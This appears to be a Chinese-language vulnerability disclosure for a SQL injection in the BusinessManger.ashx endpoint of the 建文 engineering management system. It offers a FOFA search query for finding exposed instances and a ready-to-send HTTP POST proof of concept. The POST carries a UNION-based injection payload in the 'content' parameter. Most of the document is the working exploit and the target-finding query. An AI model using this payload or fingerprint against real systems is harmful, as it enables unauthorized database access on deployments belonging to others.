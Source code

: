 # 建文工程管理系统BusinessManger.ashx存在SQL注入漏洞

建文工程管理系统 `/AppInterface/Business/BusinessManger.ashx `存在SQL注入漏洞。

## fofa

```yaml
body="Login/QRLogin.ashx"
```

![image-20240722163029952](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407221630031.png)

## poc

```yaml
POST /AppInterface/Business/BusinessManger.ashx HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

method=PrjType&content=%' and 1=2 union select 1,(select+SUBSTRING(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','233')),3,32));-- a
```
